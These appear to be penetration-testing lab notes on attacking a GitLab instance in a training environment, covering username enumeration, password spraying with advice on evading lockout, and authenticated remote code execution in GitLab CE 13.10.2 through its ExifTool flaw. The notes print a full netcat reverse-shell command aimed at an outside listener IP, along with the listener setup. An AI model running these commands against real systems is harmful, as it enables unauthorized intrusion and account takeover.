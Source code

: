 ## 1. Username Enumeration

### Manual Enumeration

- Attempt to register accounts with various usernames. GitLab will indicate if a username is already taken, confirming its existence.
    

### Automated Enumeration

- Use the `gitlab_userenum.sh` script or its Python3 equivalent to automate the process.
    

#### Command Examples

```bash
# Bash script version
./gitlab_userenum.sh --url http://gitlab.inlanefreight.local:8081/ --userlist users.txt

# Python script version
python3 gitlab_userenum.py -u http://gitlab.inlanefreight.local:8081/ -l users.txt
```

### Password Spraying

- After enumerating usernames, perform password spraying with common passwords or credentials from data breaches.
    
- **GitLab’s default account lockout policy:**
    
    - **10 failed attempts** trigger a **10-minute lockout**.
        
    - Avoid brute-force detection by using slow, distributed attacks.
        

---

## 2. Authenticated Remote Code Execution (RCE)

### Vulnerability Details

- GitLab Community Edition **≤13.10.2** is vulnerable to RCE due to improper handling of **ExifTool metadata**.
    

### Exploitation Steps

1. Use the `gitlab_13_10_2_rce.py` exploit script.
    
2. Execute the following command to gain a reverse shell:
    

#### Command Example

```bash
python3 gitlab_13_10_2_rce.py -t http://gitlab.inlanefreight.local:8081 -u mrb3n -p password1 -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.15 8443 >/tmp/f'
```

### Setting Up a Netcat Listener

- Start a Netcat listener to receive the reverse shell connection.
    

#### Command Example

```bash
nc -lnvp 8443
```

---

## Key Takeaways

### Username Enumeration

- Helps identify valid accounts for potential password spraying.
    
- GitLab’s lockout settings must be factored into attack methodology.
    

### RCE Exploitation

- The **ExifTool vulnerability** allows remote code execution with valid credentials.
    
- If self-registration is enabled, attackers can create an account for exploitation.
    

### Reverse Shell Considerations

- The RCE exploit initiates a **reverse shell** to establish persistent access.
    

### Ethical Considerations

- **Only conduct testing on authorized systems.**
    
- **Replace placeholders** (IP addresses, ports, credentials) with real values as needed.
    

---

## Summary of Commands

```bash
# Username Enumeration (gitlab_userenum.sh)
./gitlab_userenum.sh --url http://gitlab.inlanefreight.local:8081/ --userlist users.txt

# Username Enumeration (gitlab_userenum.py)
python3 gitlab_userenum.py -u http://gitlab.inlanefreight.local:8081/ -l users.txt

# Authenticated RCE (gitlab_13_10_2_rce.py)
python3 gitlab_13_10_2_rce.py -t http://gitlab.inlanefreight.local:8081 -u mrb3n -p password1 -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.15 8443 >/tmp/f'

# Netcat Listener
nc -lnvp 8443
```